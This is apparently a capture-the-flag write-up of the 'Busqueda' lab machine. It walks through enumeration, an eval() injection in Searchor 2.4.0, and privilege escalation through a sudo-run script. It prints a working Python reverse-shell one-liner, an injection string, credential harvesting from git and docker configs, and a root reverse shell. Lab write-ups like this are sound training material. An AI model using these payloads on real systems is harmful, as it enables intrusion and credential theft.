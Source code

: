 # Busqueda
#### _June 30th 2023_

#### Difficulty: <span style="color:green">Easy</span>


---
<br>
I started the lab with a quick scan. We have ssh and http ports open. Next I ran full scan with scripts and service version detection on all ports. This told us the server is using Apache 2.4.52, but not anything else too interesting.

<img src="images/nmapquick.png">

After nmap scans were finished i ran gobuster enumeration, which found /search and /server-status paths. Following gobuster I did one more enumeration run using whatweb, which revealed that the server is running werkzeug 2.1.2 and python 3.10.6 code. 

<img src="images/gobusterdir.png">

Now I decided it is time to pay the website a visit on my browser. On the website I see that the application is a search engine, where I can choose my searchengine and then type the query i want to search. On the bottom of the page we can see a footer which says the application is using Searchor 2.4.0. 

<img src="images/website.png">

At this point what I know is that the server is using Apache 2.4.52, Flask back-end / Werkzeug 2.1.2, Searchor 2.4.0 and that the application sends user input queries to the back-end. Now I decided that it is time to start gathering information about the services running in more detail and search for vulnerabilites.

Starting with Apache, I found CVE-2022-22721 affecting Apache version 2.4.52, but thinking about the nature of our task and the environment we are working with, I decided to not pursue this vulnerability any further.

Next I started researching for Flask/Werkzeug vulnerabilities. Using tips from HackTricks and script, I tried to traverse to console endpoint, which didn't work because debug is not enabled on the server. Other than that, this Flask version doesn't seem to have publicly available exploits so I decided to move forward.

After researching Flask it was time to move on to Searchor 2.4.0. On the first google I came across a RCE vulnerability. The vulnerability can be found here. Moving to references on the exploit site there is a link to a Github commit, where we can see an eval() function being removed. This hints that we can probably use the eval() value on the search query as a sink to break out of it and execute malicious code. 

<img src="images/changes.png">

Using PayLoadAllTheThings I found a payload to create reverse shell on Python. Getting the payload to work took a while, but I was able to get a foothold in the target machine. The final payload used was crafted from this:

python -c 'socket=__import__("socket");subprocess=__import__("subprocess");os=__import__("os");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

<img src="images/foothold.png">

To understand why the exploit works you can refer to the changelog of Searchor mentioned above, where you can see that an eval() function was removed from the application. For example, adding a ',1=1# to the 'url' parameter's formatted string literal 'query' gives you a the following string:

f"Engine.{engine}.search('{query}',1=1#', copy_url={copy}, open_web={open})"

which essentially enables the attacker to define any variables and execute any python code on the target machine. The malicious query itself connects the attacker (your host machine) to the target machine, spawns new process (/bin/bash) and duplicates standard input, standard output and standard error for the use of the created process.

After having foothold on the target it was time to start enumerating the machine. First thing i did was upgrade the TTY, after which i started looking around the directories. In the directory /home/svc I found plenty of hidden files, including ones called .mysql_history, and .gitconfig. Reading the .gitconfig file there is some user information: cody@searcher.thb. 

<img src="images/cody.png">

Looking around other important files, including /etc/hosts I noticed a mention about gitea.searcher.htb host. After this I headed to the application directory at /var/www/app and did ls -a on it. The list revealed a hidden .git folder inside which was the whole git repository. The config file included the following line:

url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git.

Maybe this could be codys password?

<img src="images/codypass.png">

Cody does not have account on the machine we are working on now and the password does not work for any other users either. I decided to take a look at gitea.searcher.htb, which seems to be another web application. On the bottom of the page we have a footer saying "Gitea Version 1.18.0+rc1. On the upper right we have sign-in option. Let's try the user and password we just found there. 

<img src="images/gitealogged.png">

That seems to have worked and we are now logged in on cody's account on gitea. Looking around the repository didn't reveal anything interesting other than that there is another user named "administrator". On bottom right I saw a API link, which led me to the gitea api website. I was able to authenticate as cody there and I was able to run some api calls, however this was a deadend that I wasted quite alot time on.

Taking a step back I did find out that I can use cody's password to run sudo svc account on the target machine, allowing me to run sudo commands. 

<img src="images/sudol.png">

Doing sudo -l printed the following:

User svc may run the following commands on busqueda: (root) /usr/bin/python3 /opt/scripts/system-checkup.py *.

So I decided to run the above script. The script omitted some usage information indicating that I can list running docker containers. 

<img src="images/checkup.png">

Running docker-ps revealed a running mysql database image. Next, I inspected it further. I found the path to the logs of the docker image, but I was not permitted to access it. After that I took a look at the docs and tried to get a subsection in JSON format of the .Config. It worked, and I noticed the following entries:

"MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh"

<img src="images/dockerps.png">

Prior experience on this box led me to try both of the above passwords in Gitea to log into administrator account and it worked, and I was able to find a scripts repository. Looking at system-checkup.py I found a line saying that the script runs full-checkup.sh from the present directory. This means I could make a script called full-checkup.sh and system-checkup would call and execute it. 

<img src="images/run_command.png">

I crafted a script called full-checkup.sh that creates a reverse shell on my host machine which has netcat listener on. This gave me root shell. 

<img src="images/script.png">

<img src="images/revshell.png">